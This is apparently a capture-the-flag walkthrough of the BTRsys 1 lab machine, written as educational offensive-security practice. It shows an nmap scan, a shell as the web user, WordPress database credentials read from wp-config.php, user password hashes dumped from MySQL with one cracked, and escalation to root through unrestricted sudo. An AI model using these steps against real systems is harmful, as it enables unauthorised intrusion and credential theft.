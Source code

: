 ```yaml
---
title: BTRsys 1
categories: [Proving Grounds Play]
tags: [mysql, Wordpress, PrivEsc]
image:
  path: /Vulnhub-Files/img/BTRsys-1/Untitled%201.png
  alt:  BTRsys 1 Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled.png)

```bash
IP : 192.168.249.138
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BTRsys]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.138
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 02:11 EDT
Nmap scan report for pinkydb (192.168.249.138)
Host is up (0.00086s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.249.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:A7:26:87 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%202.png)

Now lets try to find the user with wpscan tool →

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%206.png)

```bash
www-data@ubuntu:/$ uname -an
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}

Lets see the wp-config.php file →

```bash
www-data@ubuntu:/var/www/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You do not have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Do not change this if in doubt. */
define('DB_COLLATE', '');
/** */
define('WP_HOME','/wordpress/');
define('WP_SITEURL','/wordpress/');
...
```
{: .nolineno}

Lets try for mysql login →

```bash
mysql> select * from wp_users \G ;
*************************** 1. row ***************************
                 ID: 1
         user_login: root
          user_pass: a318e4507e5a74604aafb45e4741edd3 : roottoor
      user_nicename: btrisk
         user_email: mdemir@btrisk.com
           user_url: 
    user_registered: 2017-04-24 17:37:04
user_activation_key: 
        user_status: 0
       display_name: btrisk
*************************** 2. row ***************************
                 ID: 2
         user_login: admin
          user_pass: 21232f297a57a5a743894a0e4a801fc3
      user_nicename: admin
         user_email: ikaya@btrisk.com
           user_url: 
    user_registered: 2017-04-24 17:37:04
user_activation_key: 
        user_status: 4
       display_name: admin
2 rows in set (0.00 sec)

ERROR: 
No query specified

mysql>
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/BTRsys-1/Untitled%207.png)

Now lets dig deeper →

```bash
btrisk@ubuntu:/var/www/html/wordpress$ sudo -l
[sudo] password for btrisk: 
Matching Defaults entries for btrisk on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User btrisk may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
btrisk@ubuntu:/var/www/html/wordpress$ sudo /bin/bash -i
root@ubuntu:/var/www/html/wordpress# whoami
root
root@ubuntu:/var/www/html/wordpress# cd ~
root@ubuntu:~# ls -al
total 40
drwxr-xr-x 4 btrisk 1000 4096 Apr 24  2017 .
drwxr-xr-x 3 root   root 4096 Mar 17  2017 ..
-rw------- 1 btrisk 1000  243 May  2  2017 .bash_history
-rw-r--r-- 1 btrisk 1000  220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 btrisk 1000 3771 Mar 17  2017 .bashrc
drwx------ 2 btrisk 1000 4096 Mar 17  2017 .cache
-rw------- 1 btrisk 1000  453 Mar 23  2017 .mysql_history
drwxrwxr-x 2 btrisk 1000 4096 Mar 21  2017 .nano
-rw-r--r-- 1 btrisk 1000  655 Mar 17  2017 .profile
-rw-r--r-- 1 btrisk 1000    0 Mar 17  2017 .sudo_as_admin_successful
-rw------- 1 btrisk 1000  586 Mar 21  2017 .viminfo
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }